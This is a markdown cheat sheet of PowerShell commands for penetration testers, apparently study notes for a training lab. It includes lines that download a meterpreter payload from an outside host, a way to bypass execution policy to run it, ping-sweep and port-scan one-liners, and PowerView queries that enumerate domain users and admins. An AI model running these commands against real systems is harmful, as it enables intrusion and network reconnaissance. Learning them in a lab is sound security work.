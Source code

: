 # Powershell for Pentesters

## Manipulating Files

```powershell
# Start the notepad app
Start-Process notepad.exe

Get-Process -name notepad

# Export the process information to the csv format
Get-Process | Export-Csv running_process.csv

# Copy-Item , Move-Item
Copy-Item .\IP.txt copy_IP.txt

# Get file Hash
Get-FileHash -Algorithm SHA256 .\IP.txt
```

## Downloading Files

```powershell
# First Way
(New-Object System.Net.WebClient).Downloadfile('http://10.0.2.8:8888/meterpreter-64.ps1', 'meterpreter.ps1')

# Second Way
Invoke-WebRequest 'http://10.0.2.8:8888/meterpreter-64.ps1' -OutFile "meterpreter.ps1"
```

To get Execution policy we can run `Get-ExecutionPolicy -list`.

Execution policies can have seven different values;

- AllSigned: Scripts can run but require all scripts to be signed by a trusted publisher.

- Bypass: All scripts can run, and no warnings or prompts will be displayed.

- Default: This refers to “restricted” for Windows clients and “RemoteSigned” for Windows servers.

- RemoteSigned: Scripts can run, and this does not require local scripts to be digitally signed.

- Restricted: The default configuration for Windows clients. Allows individual commands to run, does not allow scripts.

- Undefined: This shows that no specific execution policy was set. This means default execution policies will be enforced.

- Unrestricted: Most scripts will run.

To by pass the ExecutionPolicy we can run
```powershell
# First way
powershell -ExectionPolicy Bypass -File .\meterpreter.ps1

# Second way: -scope make only be able run for current powershell session
Set-ExecutionPolicy Bypass -scope Process
```

## System Reconnaissance

`Get-HotFix` enumerate already installed patches. 

```powershell
# This will Grep for all that have InstallOn.
Get-HotFix | Format-list | findstr InstalledOn

Get-HotFix | Format-Table HotFixID
```

`Format-List` can be used to gather more information about objects.


The `Out-File` can be used to save the output to a file for further use.

```powershell
Get-HotFix | Out-File hotfix.txt
```

What Windows Security Update was installed on 5/15/2019?
Get-HotFix | Format-Table | findstr 5/15/2019

## Network Reconnaissance 

Following command can be used for ping a given IP range and grep for lines that include the "TTL" string. 

```powershell
1..15 | %{echo "10.0.2.$_"; ping -n 1 10.0.2.$_ | Select-String ttl}
```

This command check For all 1024 ports to see if is open or not.

```powershell
1..1024 | %{echo ((New-Object Net.Sockets.TcpClient).Connect("10.0.2.8", $_)) "open port on - $_"} 2>$null
```

## Using PowerView


Gather information about domain with the help of [PowerView.ps1](https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1).
To import `Import-Module .\powerview.ps1`.

`Get-NetDomainController` command will collect information on the domain controller. Knowing the IP address of the domain controller will be useful to
conduct man-in-the-middle attacks and to focus our efforts on high-value targets. 

`Get-NetUser` will list of domain users. 
```powershell 
Get-NetUser | out-gridview
```



 One of the accounts has a special description; what is it?
 ```powershell
 Get-NetUser -Properties description
 ```

 How many accounts are disabled?
 ```powershell
 Get-NetUser -Properties useraccountcontrol | findstr ACCOUNTDISABLE | measure
 ```

 How many users are in the “domain admins” group?
 ```powershell
 Get-NetGroupMember “Domain Admins” | measure
 ````
